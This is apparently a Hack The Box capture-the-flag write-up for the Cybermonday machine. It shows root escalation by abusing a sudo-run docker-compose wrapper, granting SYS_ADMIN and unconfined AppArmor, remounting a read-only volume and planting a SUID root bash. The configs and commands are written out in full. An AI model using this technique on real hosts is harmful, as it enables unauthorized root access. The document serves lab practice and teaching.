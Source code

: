 # HTB Cybermonday - Composing Root Access

[Initial Enumeration](1-initial-enumeration)
[Webhook API Admin Access](2-webhook-api-admin)
[Obtaining More Info](3-obtaining-more-info)
[Gaining a Foothold](4-gaining-a-foothold)
[Where to Now?](5-where-to-now)
[Reading the Source](6-reading-the-source)
[**Composing Root Access**](7-composing-root-access)

Okay, I know that getting to user was a slog, but getting root is much easier, I promise. Look this is the last part left. After doing our initial enumeration again, we don't find much that could be exploited except for a Python script called `secure_compose.py`. We're able to read the file so let's view it and see what's going on.
```python
#!/usr/bin/python3
import sys, yaml, os, random, string, shutil, subprocess, signal

def get_user():
    return os.environ.get("SUDO...
```

It looks like this script takes a docker-compose.yml file from a user, builds any images in it, and runs the containers. What makes it secure is the fact that you're unable to create privileged containers, and all file mounts are restricted to specific places and must be read only. It also checks you're not cheating the file location using a Symlink. Lucky for us this is all it checks, and Docker has a number of features that let us abuse this script to gain root. In our case, we're simply going to create a SUID `bash` executable that will let us gain a root shell. But how are we going to do that if all our mounts are read only? Well remount them as read/write of course.

First we need to prepare a `docker-compose.yml`, `Dockerfile`, and `run.sh` file for our container. In theory you could do everything in the `docker-compose` but we're going to keep each part separate and simple so it's clear what's happening. In order to remount a directory, we need to give our container the `SYS_ADMIN` capability and add the security option `apparmor:unconfined`. As for the image to use, we'll go back to our trusty `cybermonday_api` since we know the host is already running it. As the script copies our `docker-compose` file to a temporary folder, we'll need to specify the location of the `Dockerfile`.

So our `docker-compose.yml` should look like:
```yaml
version: '3'
services:
  exploit:
    build: /home/john/docker
    volumes:
      - /home/john/docker:/mnt:ro
    cap_add:
      - SYS_ADMIN
    security_opt:
      - apparmor:unconfined
```

Our `Dockerfile` should look like:
```dockerfile
FROM cybermonday_api:latest
COPY run.sh /opt/run.sh
CMD /bin/sh /opt/run.sh
```

And finally for our script we'll run:
```shell
$ mount -o remount,rw /mnt
$ cp /bin/bash /mnt/bash
$ chown root:root /mnt/bash
$ chmod 4777 /mnt/bash
```

Upload these all to a folder called `docker` in the home directory for `john`. It's easier to keep track of everything that way and we can just delete the folder to clean up once we're done so it's not spoilt for the next person. Once you're got everything ready it's time to run secure compose. 
```shell
$ sudo /opt/secure_compose.py docker-compose.yml
```

`ls` our directory and we should see a shiny new `bash` executable. Let's try running it now.
```shell
$ ./bash -p

./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found...
```

Oh dear. It looks like the `cybermonday_api` image uses a different version of `glibc`. Not to worry, there is one place where we know that we have a working copy of `bash`; the host itself. Let's change our `run.sh` script slightly.
```shell
$ mount -o remount,rw /mnt
$ chown root:root /mnt/bash
$ chmod 4777 /mnt/bash
```

Then we just copy `bash` into our `docker` directory, and run the `secure_compose` script again.
```shell
$ cp /bin/bash ~/docker
$ sudo /opt/secure_compose.py docker-compose.yml
$ ./bash -p

bash-5.1# whoami
root
```

Copy the root flag from `/root/root.txt` and delete the `~/docker` directory, then celebrate that you've finished this machine.
